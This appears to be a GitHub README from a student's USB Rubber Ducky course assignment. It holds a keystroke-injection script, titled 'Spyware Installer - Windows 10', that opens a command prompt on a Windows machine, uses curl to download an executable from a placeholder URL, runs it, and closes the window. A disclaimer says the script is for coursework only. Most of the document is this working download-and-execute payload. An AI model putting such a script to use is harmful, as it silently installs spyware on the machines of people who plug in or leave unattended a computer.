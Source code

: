 # Spyware Installer - Windows 10
## Hassan Chadad
## CS-683 USB Rubber Ducky Assignment

This ducky script will download a spyware that I created from a url and run it<br/>
Steps to write the script:
1. Open cmd
2. Go to Downloads Folder
3. Download the spyware from URL
4. Run the SPyware
7. Close the cmd

**This script is for the course's assignment and I don't aim to use it to harm or do any real attacks.**

```
REM ---------Open start Menu---------
CONTROL ESCAPE
DELAY 500
REM ---------Type cmd---------
STRING cmd 
DELAY 300
REM ---------Open cmd---------
ENTER
DELAY 1000
REM ---------Go To Downloads Folder---------
STRING cd Downloads
ENTER
DELAY 500
REM ---------Download Spyware from URL---------
STRING curl http://linkWhereIuploadedTheSpyware.exe --output spicy.exe
ENTER
DELAY 10000
REM ---------Start Spyware---------
STRING start spicy.exe
ENTER
DELAY 3000
REM ---------close cmd---------
ALT F4
```
